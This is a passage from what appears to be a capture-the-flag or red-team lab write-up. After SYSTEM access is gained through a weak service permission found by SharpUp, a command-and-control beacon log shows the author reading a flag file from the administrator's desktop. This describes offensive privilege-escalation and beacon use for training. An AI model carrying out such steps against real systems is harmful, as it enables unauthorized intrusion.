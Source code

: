 on as `SYSTEM` from [[6. SharpUp Weak Service Permissions Check]], navigated to `c:\users\administrator\Desktop` and utilized `type` to check the flag 
```powershell
[02/16 20:49:45] beacon> shell type flag1.txt
[02/16 20:49:45] [*] Tasked beacon to run: type flag1.txt
[02/16 20:49:45] [+] host called home, sent: 45 bytes
[02/16 20:49:46] [+] received output:
ea40047bd79f6b2d146ae16dd844d98b
```
![[Pasted image 20240216160206.png]]